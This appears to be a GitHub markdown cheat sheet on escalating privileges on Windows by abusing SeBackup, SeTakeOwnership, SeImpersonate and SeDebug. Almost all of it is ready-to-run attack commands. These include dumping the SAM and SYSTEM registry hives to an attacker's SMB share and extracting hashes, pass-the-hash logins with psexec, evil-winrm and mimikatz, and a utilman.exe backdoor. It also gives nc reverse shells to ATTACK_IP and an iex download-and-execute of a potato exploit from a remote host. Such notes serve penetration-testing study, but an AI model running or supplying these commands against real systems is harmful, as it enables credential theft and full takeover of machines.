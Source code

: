 # Windows Privileges

## Privilege check command: whoami /priv

## Examples of dangerous privileges:

### SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

    cd /

    mkdir temp

    cd temp

    req save hklm\system c:\temp\system

    req save hklm\sam c:\temp\sam

    download sam

    download system

#### 2: Create SMB Server on attacking machine

    mkdir share

    impacket-smbserver -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

    copy c:\users\user\sam.hive \\ATTACK_IP\public\

    copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

    impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

    pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

    impacket-psexec -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

    evil-winrm -i TARGET_IP -u administrator -H 'NTLM_HASH'

#### Mimikatz

    sekurlsa:pth /user:Administrator /ntlm:NTLM_HASH /domain:DOMAIN /run:powershell.exe

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

    python smbserver.py -smb2support share /tmp

    reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

    reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

    reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

    Import-Module .\SeBackupPrivilegeUtils.dll

    Import-Module .\SeBackupPrivilegeCmdLets.dll

    Set-SeBackupPrivilege

    Get-SeBackupPrivilege

## Alternate Method: Robocopy

    robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B

    type C:\Users\Public\root.txt

## SeTakeOwnership

#### Essentially, we can take ownership of a service running as SYSTEM and elevate privileges.

### Example: Utilman.exe

#### 1: 

    takeown /f c:\windows\system32\utilman.exe

#### 2: 

    icacls c:\windows\system32\utilman.exe /grant USER:F

#### 3: 

    copy cmd.exe utilman.exe

#### 4: Trigger utilman : Lock screen, click ease of access

## SeImpersonate/SeAssignPrimaryToken

### A lot of potato exploits work with these privileges, so in our example we will talk about RoguePotato.

#### RogueWinRM.exe exploit

#### 1: Start listener

    c:\path\to\roguewinrm\roguewinrm.exe -p "C:\path\to\nc64.exe" -a "-e cmd.exe ATTACK_IP PORT"

## Tool: PrintSpoofer

## Link: https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

## Tool: Invoke-BadPotato

## Link: https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1

Download the script on our target machine

    iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-BadPotato.ps1')

Run the script to get system

    Invoke-BadPotato -Command "c:\temp\nc.exe -e powershell.exe ATTACK_IP PORT"

## Tool: RottenPotato

    RottenPotato.exe -r -c "cmd.exe"

## SeDebug Privilege

### Tools: Meterpreter, https://github.com/decoder-it/psgetsystem

### Steps:

#### 1) 

    Get-Process winlogon (Check for a specific SYSTEM level process running on the machine)

#### 2) Download and execute Meterpreter on target machine to connect to us

#### 3) 

    ps (Check for processes running as SYSTEM. Example: winlogon.exe)

#### 4) 

    migrate PID (Take ownership of the elevated process)

#### 5) VOILA!

## TIP: If the SeDebug Privilege is disabled, we can enable it with psgetsystem powershell script (Link attached at the top of this attack's explanation)

### Alternate Method for SeImpersonate and SeDebug: 

https://github.com/0xCyberY/Exploit-SeImpersonatePrivilege-and-SeDebugPrivilege
